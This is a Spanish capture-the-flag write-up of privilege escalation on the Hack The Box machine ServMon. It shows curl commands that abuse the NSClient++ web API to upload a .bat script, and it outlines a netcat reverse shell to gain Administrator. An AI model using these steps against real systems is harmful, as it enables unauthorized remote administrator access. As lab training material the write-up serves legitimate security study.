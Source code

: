 Buscando por internet (y en el exploit nos lo dice), sabemos que el archivo nsclient++.ini tiene la password en este caso del Administrador pero en cuanto al servicio NSClient++.

Pero resumidamente realizaremos estos pasos, ya que los pasos finales no son necesarios (reiniciar la maquina NO era necesario):
1. Subir *nc.exe* (netcat) y el archivo *.bat* a Windows
2. Subir el *.bat* al NSClient++ como script con la API
3. Ponernos en escucha mediante nc (netcat), esperando la conexion del script
4. Ejecutar el script con la ayuda de la API
5. Conseguir la SHELL como Administrator

### Subir *nc.exe* (netcat) y el archivo *.bat* a Windows

Descargar el ejecutable de netcat desde la web y crear el *.bat*

![creatinganduploadBAT](https://github.com/jntxJ/Writeups/blob/master/HTB/ServMon/images/creatinganduploadBAT.png)

Usando `scp` podemos transferir mediante **ssh** archivos, siempre y cuando tengamos credenciales del objetivo.

### Subir el *.bat* al NSCLient++ como script con la API

Buscar muy bien en la documentacion, entender y hacer, llevo su tiempo, pero fue bonito.

`curl -k -i -u admin https://localhost:8443/api/v1/scripts/ext?all=true`

Primero vemos los scripts actuales que maneja la app. (Ademas tambien para probar que todo va bien :P) 

(Nos va a pedir la pw que ya encontramos en el nsclient++.ini)

![seeScriptsAPI](https://github.com/jntxJ/Writeups/blob/master/HTB/ServMon/images/seeScriptsAPI.png)

Listo, ahora lo que haremos sera agregar el *queesesto.bat* como un script

`curl -i -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts\c:\Temp\lana.bat --data-binary @lana.bat`

![addScriptAPI](https://github.com/jntxJ/Writeups/blob/master/HTB/ServMon/images/addScriptAPI.png)

Acá usamos PUT para "Poner", indicandole donde esta el archivo y donde queremos subirlo, en este caso en `/scripts`

Ahora, ¿como hacemos para ejecutarlo? Buscando y buscando, en la documentacion hace referencia a `/queries`, en los cuales dentro de cada uno hay unos atributos y comandos, uno de ellos tiene una instrucción de "ejecución". Veamos que *queries* hay.

`curl -k -i -u admin https://localhost:8443/api/v1/queries/`

![queriesGeneralAPI](https://github.com/jntxJ/Writeups/blob/master/HTB/ServMon/images/queriesGeneralAPI.png)

Al final vemos que se creo un tipo "JSON" con informacion relacionada a nuestro script.

![queryScriptAPI](https://github.com/jntxJ/Writeups/blob/master/HTB/ServMon/images/queryScriptAPI.png)

Ya se ve el comando `execute` y hace referencia a el script agregado.
`"execute_url":"https://localhost:8443/api/v1/queries/queesesto/commands/execute"`
